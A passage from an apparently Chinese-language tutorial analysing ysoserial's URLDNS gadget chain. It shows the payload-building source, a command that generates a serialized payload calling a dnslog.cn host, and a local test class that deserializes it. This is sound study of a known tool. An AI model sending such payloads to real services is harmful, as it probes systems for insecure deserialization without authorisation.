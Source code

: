 ```java
			System.exit(INTERNAL_ERROR_CODE);
		}
		System.exit(0);
	}
```

URLDNS类getObject方法

```java
public Object getObject(final String url) throws Exception {

                //Avoid DNS resolution during payload creation
                //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
  							//创建了URLStreamHandler对象
                URLStreamHandler handler = new SilentURLStreamHandler();
								//创建了HashMap对象
                HashMap ht = new HashMap(); // HashMap that will contain the URL
  							//URL对象 url=http://64hu68.dnslog.cn
                URL u = new URL(null, url, handler); // URL to use as the Key
  							//将URL对象作为HashMap中的key，dnslog地址为值，存入HashMap中。
                ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.
								//通过反射机制 设置URL对象的成员变量hashCode值为-1
                Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.
								//将HashMap对象返回
                return ht;
}
```

接着对**HashMap对象**进行序列化操作Serializer.serialize(object, out);并将序列化的结果重定向到dnslog1.ser文件中

## 实验验证

**序列化过程：**用打包出来的jar，生成序列化的文件。

```shell
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS "http://64hu68.dnslog.cn" > dnslog1.ser
```

之后在ysoserial-0.0.6-SNAPSHOT-all.jar同目录下就有生成的dnslog1.ser序列化文件。
**反序列化过程：**写一个测试类反序列化写入上面序列化的文件。

```java
package ysoserial;

import java.io.FileInputStream;
import java.io.ObjectInputStream;

public class Test {

    public static void main(String[] args) throws Exception {
        ObjectInputStream os = new ObjectInputStream(new FileInputStream("target/dnslog1.ser"));
        os.readObject();
        System.out.println("OK");
    }
}
```
